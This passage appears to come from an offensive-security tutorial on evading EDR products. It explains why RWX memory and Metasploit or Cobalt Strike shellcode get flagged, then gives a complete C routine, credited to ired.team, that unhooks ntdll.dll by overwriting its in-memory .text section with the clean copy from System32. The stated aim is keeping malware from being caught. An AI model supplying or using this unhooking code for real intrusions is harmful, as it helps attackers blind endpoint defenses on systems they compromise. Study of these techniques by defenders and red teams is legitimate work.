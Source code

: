 This is highly suspicious behavior, and almost certainly malware. Furthermore, by hooking our `VirtualAlloc`(Ex) call, an EDR can also then run a scan on that memory region to look for known byte sequences. 
RWX permissions on unbacked memory regions are suspicious (as are RX, but less so), so that’s a hit. 

Metasploit, Cobalt Strike, and other signatured C2 shellcode in those memory regions is another hit. An EDR at this point can safely assume it has encountered malware and kill the process. Behavioral detections have caught us!

So, what can we do? We can unhook the functions we use! 

Or better yet, we can unhook the DLLs those function come from in their entirety. There is only one thing we need for this: the original, unaltered function instructions. Luckily, those exist on disk in the System32 directory. 

EDRs can only hook these functions in-memory, not on-disk, as many essential system applications also utilize these functions. So, we can read the .text section of the files on-disk and replace the .text section in our process’s memory with the clean version. 

An example courtesy of [ired.team](https://www.ired.team/offensive-security/defense-evasion/how-to-unhook-a-dll-using-c++):

```c
HANDLE process = GetCurrentProcess();
	MODULEINFO mi = {};
	HMODULE ntdllModule = GetModuleHandleA("ntdll.dll");
	
	GetModuleInformation(process, ntdllModule, &mi, sizeof(mi));
	LPVOID ntdllBase = (LPVOID)mi.lpBaseOfDll;
	HANDLE ntdllFile = CreateFileA("c:\\windows\\system32\\ntdll.dll", GENERIC_READ, FILE_SHARE_READ, NULL, OPEN_EXISTING, 0, NULL);
	HANDLE ntdllMapping = CreateFileMapping(ntdllFile, NULL, PAGE_READONLY | SEC_IMAGE, 0, 0, NULL);
	LPVOID ntdllMappingAddress = MapViewOfFile(ntdllMapping, FILE_MAP_READ, 0, 0, 0);

	PIMAGE_DOS_HEADER hookedDosHeader = (PIMAGE_DOS_HEADER)ntdllBase;
	PIMAGE_NT_HEADERS hookedNtHeader = (PIMAGE_NT_HEADERS)((DWORD_PTR)ntdllBase + hookedDosHeader->e_lfanew);

	for (WORD i = 0; i < hookedNtHeader->FileHeader.NumberOfSections; i++) {
		PIMAGE_SECTION_HEADER hookedSectionHeader = (PIMAGE_SECTION_HEADER)((DWORD_PTR)IMAGE_FIRST_SECTION(hookedNtHeader) + ((DWORD_PTR)IMAGE_SIZEOF_SECTION_HEADER * i));
		
		if (!strcmp((char*)hookedSectionHeader->Name, (char*)".text")) {
			DWORD oldProtection = 0;
			bool isProtected = VirtualProtect((LPVOID)((DWORD_PTR)ntdllBase + (DWORD_PTR)hookedSectionHeader->VirtualAddress), hookedSectionHeader->Misc.VirtualSize, PAGE_EXECUTE_READWRITE, &oldProtection);
			memcpy((LPVOID)((DWORD_PTR)ntdllBase + (DWORD_PTR)hookedSectionHeader->VirtualAddress), (LPVOID)((DWORD_PTR)ntdllMappingAddress + (DWORD_PTR)hookedSectionHeader->VirtualAddress), hookedSectionHeader->Misc.VirtualSize);
			isProtected = VirtualProtect((LPVOID)((DWORD_PTR)ntdllBase + (DWORD_PTR)hookedSectionHeader->VirtualAddress), hookedSectionHeader->Misc.VirtualSize, oldProtection, &oldProtection);
		}
	}
	
	CloseHandle(process);
	CloseHandle(ntdllFile);
	CloseHandle(ntdllMapping);
	FreeLibrary(ntdllModule);
```
